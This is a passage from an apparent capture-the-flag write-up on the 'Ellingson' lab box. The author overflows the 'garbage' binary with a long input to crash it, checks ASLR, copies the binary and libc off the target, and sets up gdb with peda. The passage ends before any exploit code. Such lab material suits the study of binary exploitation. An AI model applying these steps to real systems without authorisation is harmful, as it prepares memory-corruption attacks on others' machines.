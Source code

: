 ```bash
margo@ellingson:~$ python -c 'print "A" * 200' | /usr/bin/garbage
Enter access password: 
access denied.
Segmentation fault (core dumped)
```

Damn - binary exploitation. As I do not have much experience with that, I will provide a detailed explanation in order to help myself remember everything in the future.

The following command checks whether ASLR is enabled on the target system:

```bash
margo@ellingson:~$ cat /proc/sys/kernel/randomize_va_space
2
```

The output can be interpreted as follows:

* 0: ASLR disabled
* 1: ASLR enabled
* 2: ASLR enabled & data segments randomized as well

In order to prepare binary exploitation, the following steps were executed:

* Download binary: `scp margo@10.10.10.139:/usr/bin/garbage`
* Download libc: `scp margo@10.10.10.139:/lib/x86_64-linux-gnu/libc.so.6 .`
* Install `peda` and configure `gdb` to load it

```bash
$ git clone https://github.com/longld/peda.git /opt/peda
$ echo "source /opt/peda/peda.py" >> ~/.gdbinit
```

Next, we need to analyze the binary for finding out how much junk we need and which security measures are in place:

* Startup `gdb`, loading the binary:

```bash
$ gdb ./garbage
GNU gdb (Debian 8.2.1-2) 8.2.1
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from garbage...(no debugging symbols found)...done.
```
